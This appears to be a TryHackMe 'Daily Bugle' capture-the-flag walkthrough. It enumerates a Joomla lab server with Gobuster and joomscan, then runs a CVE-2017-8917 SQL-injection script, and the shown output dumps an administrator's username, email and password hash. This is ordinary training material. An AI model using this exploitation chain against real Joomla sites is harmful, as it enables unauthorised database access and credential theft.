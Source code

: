 In the HTTP port 80, we can see the info for robots.txt with 15 disallowed entries.

<img src=https://github.com/user-attachments/assets/feb82850-3850-4fb1-b33e-ff1396b2f881>

Joomla CMS is used by the web server. Also, to test for each entries, I made a custom directory file with the enteries containing those 15 entries and used it with GoBuster.

```
┌──(kali㉿kali)-[~/Desktop/THM/Daily Bugle]
└─$ gobuster dir -u http://10.10.48.76/ -w robots.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.48.76/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                robots.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/cache/               (Status: 200) [Size: 31]
/bin/                 (Status: 200) [Size: 31]
/language/            (Status: 200) [Size: 31]
/layouts/             (Status: 200) [Size: 31]
/includes/            (Status: 200) [Size: 31]
/libraries/           (Status: 200) [Size: 31]
/cli/                 (Status: 200) [Size: 31]
/components/          (Status: 200) [Size: 31]
/administrator/       (Status: 200) [Size: 4840]
/modules/             (Status: 200) [Size: 31]
/tmp/                 (Status: 200) [Size: 31]
/plugins/             (Status: 200) [Size: 31]
Progress: 14 / 14 (100.00%)
===============================================================	
Finished
===============================================================
```

All the directories other than the administrator show a blank page when accessed. Only the administrator is functional.

After trying a lot to find the version of Joomla, I came across _joomscan_, something similar to wpscan for WordPress.

<img src=https://github.com/user-attachments/assets/ea58ff62-be5a-46d7-aca5-8585f91fce21>

We get the version using joomscan, which has an SQL Injection vulnerability. Downloaded the Python script and ran it.

```
┌──(kali㉿kali)-[~/Desktop/THM/Daily Bugle]
└─$ python3 CVE-2017-8917 http://10.10.48.76
 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session
```
